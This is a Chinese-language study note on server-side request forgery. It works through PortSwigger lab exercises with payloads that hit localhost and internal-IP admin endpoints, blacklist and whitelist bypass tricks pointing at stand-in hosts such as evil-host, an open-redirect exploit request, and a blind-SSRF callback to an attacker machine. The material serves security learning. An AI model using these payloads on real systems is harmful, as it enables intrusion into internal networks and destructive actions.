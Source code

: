 # 是什么

服务端请求伪造（Server Side Request Forgery, SSRF）指的是攻击者在未能取得服务器所有权限时，利用服务器漏洞以服务器的身份发送一条构造好的请求给服务器所在内网。SSRF攻击通常针对外部网络无法直接访问的内部系统。


# 攻击者可以利用 SSRF 实现的攻击主要有 5 种：
1. 可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的 banner 信息
2. 攻击运行在内网或本地的应用程序（比如溢出）
3. 对内网 WEB 应用进行指纹识别，通过访问默认文件实现
4. 攻击内外网的 web 应用，主要是使用 GET 参数就可以实现的攻击（比如 Struts2，sqli 等）
5. 利用 file 协议读取本地文件等

# 协议利用

[hacktricks](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)


# lab/

## Common SSRF attacks

1. Lab: Basic SSRF against the local server

把stockApi的参数替换为http://localhost/admin，遍历接口

![](SSRF(服务端请求伪造)_files/1.jpg)


下面payload删除carlos：

- http://localhost/admin/delete?username=carlos

2. Lab: Basic SSRF against another back-end system

探测IP

![](SSRF(服务端请求伪造)_files/1.jpg)

status=200的IP

![](SSRF(服务端请求伪造)_files/2.jpg)

soled

payload为：

- stockApi=http://192.168.0.46:8080/admin/delete?username=carlos

![](SSRF(服务端请求伪造)_files/3.jpg)


## Circumventing common SSRF defenses（绕过一般的 SSRF 防御系统）

- 使用 127.0.0.1 的其他 IP 表示法，例如 2130706433、017700000001 或 127.1。
- 注册解析到 127.0.0.1 的自己的域名。为此，您可以使用 spoofed.burpcollaborator.net。
- 使用 URL 编码或大小写变化混淆被拦截的字符串。
- Provide a URL that you control, which redirects to the target URL. Try using different redirect codes, as well as different protocols for the target URL. For example, switching from an http: to https: URL during the redirect has been shown to bypass some anti-SSRF filters.

1. Lab: SSRF with blacklist-based input filter

用```http://127.1/```代替```http://localhost/```
用```%2561```替换字母a绕过防护

![](SSRF(服务端请求伪造)_files/1.jpg)


###白名单绕过

- 使用@字符。如：https://expected-host:fakepassword@evil-host
- 使用#字符。如：https://evil-host#expected-host
- 利用 DNS 命名层次结构 ，如：https://expected-host.evil-host
- URL编码绕过
- 联合以上各种技术绕过

### 通过开放重定向绕过 SSRF 过滤器

如果参数中包含一个重定向的参数，也可以利用，比如：

- /product/nextProduct?currentProductId=6&path=http://evil-user.net
利用开放重定向漏洞来绕过 URL 过滤器，并利用 SSRF 漏洞如下

```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```

这个 SSRF 漏洞之所以能够工作，是因为应用程序首先验证提供的 stockAPI URL 是否位于允许的域上

2. Lab: SSRF with filter bypass via open redirection vulnerability

payload为：
```
/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```

![](SSRF(服务端请求伪造)_files/1.jpg)


## Blind SSRF vulnerabilities(盲注SSRF)

向外部机器发http请求，看是否被访问验证ssrf存在

payload:
- http://<kali IP>:80/any

本地开一个python web服务监听，看有没有被访问


## Finding hidden attack surface for SSRF vulnerabilities（寻找隐藏的SSRF）

1. 某一可能被当做url的参数（有时，应用程序在请求参数中只输入主机名或 URL 路径的一部分。 提交的值随后会被服务器端整合到请求的完整 URL 中）
2. XML（有些应用程序传输数据时使用的格式规范允许包含数据解析器可能会请求的 URL）
3. Referer （有些应用程序使用服务器端分析软件来跟踪访问者。 这种软件通常会记录请求中的 Referer 标头，以便跟踪传入链接）

